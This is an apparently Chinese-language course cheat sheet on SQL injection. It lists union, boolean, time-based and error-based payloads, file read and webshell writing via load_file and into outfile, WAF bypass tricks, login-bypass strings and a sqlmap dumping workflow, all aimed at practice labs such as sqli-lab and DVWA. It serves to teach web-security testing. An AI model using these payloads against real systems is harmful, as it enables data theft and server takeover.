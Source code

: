 # 复习
  * Burp -- Intruder
  * SQL 注入
    - 原理 ： 输入-语句-执行
    - ' and 1=1 / and 1=2
    - oder by 5/union select 1,2/information_schema.tables/columns
    - and exists(select user from admin)
    - ascii(mid((select user from admin limit 0,1),1,1))>96
    - mid=substring/ascii=ord
    - python-chr/ord
    - 闭合 --- 报错  ''1'''   ''1'')' " \  %df
    - url %27 / hex / base64
    - %20 +
# Web安全
## SQL注入
### 注入类型
#### 报错注入
  * floor()/updatexml(xml,a,b)/extractvalue()
  - updatexml(1,concat(0x7e,version(),0x7e),2)
#### 延时注入
  * sleep()
  - if(bool,1,2)
#### 文件读写
  * root -- user()/mysql < 5.5
  * 读： load_file('path') 绝对路径
  - /etc/passwd
  * 写： into outfile 'path'
  - 一句话
  - ' " % ) `
#### 二阶注入
  * ?id=1 -- select
  * insert -- select
#### 绕过
  * and/or/select/union
    - and=&,or=|
    - 大小写 SelEct
    - 双写 uniunionon
    - 编码 sel%65ct，16进制，base64
    - 内联注释 sel/*cc*/ect
  * 注释
    - select * from user where id='1' or '1'
  * 空格
    - %20 - +
    - %a0 %00 %0a %0b
### 注入工具
  * sqlmap
  1. sqlmap -u "url"  -- 检测是否存在注入
  2. 库 --current-db
  3. 表 -D security --tables
  4. 列 -D security -T users --columns
  5. 内容 -D security -T users -C user --dump
  * --level 1 3
  * -r
  * --cookie="security=low;PHPSESSID=sl6npvo5ldlke35vlf5a26p213"
  * sqlmap dvwa
  * sql注入存在的位置 - 凡是和数据库交互
    - ?id=1   -- GET
    - POST

    insert into user(1,2) values('1','2'); -- ')
    select * from user where username='admin'#' and pwd='11'
    update user set passwd='123' where user='admin'#'

  - 练习 sqli-lab： 5/7/9/11/24/25/27
# 总结
1. 联合查询
2. 暴力破解（布尔注入）
3. 文件读写
4. 报错/延时
5. 绕过
